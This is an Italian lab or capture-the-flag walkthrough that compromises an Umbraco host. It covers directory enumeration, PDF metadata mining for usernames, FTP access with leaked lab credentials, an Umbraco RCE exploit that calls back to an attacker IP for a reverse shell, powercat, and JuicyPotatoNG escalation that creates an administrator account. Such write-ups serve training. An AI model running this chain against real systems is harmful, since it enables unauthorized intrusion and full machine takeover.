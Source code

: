 ```bash
/prn.pdf              (Status: 403) [Size: 305]
/server-info          (Status: 403) [Size: 424]
/server-status        (Status: 403) [Size: 424]
/webalizer            (Status: 403) [Size: 305]
```

Sulla pagina http://192.168.204.247/pdfs trovo diversi pdf e li scarico.

Su ogni pdf eseguo questo comando:

```bash
exiftool -a -u exemple.pdf
```

Ottengo cosi una serie di informazioni, tra due possibili username:

```bash
emma
zachary
```

Mi connetto tramite ftp alla port 14020:

```bash
ftp 192.168.166.247 14020
```

Trovo il pdf umbraco.pdf e al suo interno delle credenziali:

```bash
mark:OathDeeplyReprieve91
```

Visitando la pagina sulla porta 14080 trovo umbraco.

Utilizzo questo exploit (https://github.com/Jonoans/Umbraco-RCE) per ottenre una reverse-shell.

```bash
python exploit.py -u mark@relia.com -p OathDeeplyReprieve91 -w 'http://web02.relia.com:14080/' -i 192.168.45.210
```

Ottengo la flag local.txt

Ho utilizzato powercat (https://github.com/rexpository/powercat-v2.0) per ottenre una shell migliore.

Utilizzo Juicy-P0tato per creare un utente amministratore (hacker:P@ssw0rd) sulla macchina:
- https://pentest.party/notes/windows/privilege-impersonate
- https://github.com/antonioCoco/JuicyPotatoNG/releases/tag/v1.1

Accedo quindi tramite rdp alla macchina:

```bash
xfreerdp /cert-ignore /u:hacker /d:relia.com /p:"P@ssw0rd" /v:192.168.173.247
```

Ottengo così la flag proof.txt.
## 192.168.X.248 - EXTERNAL {pwned:local&proof}

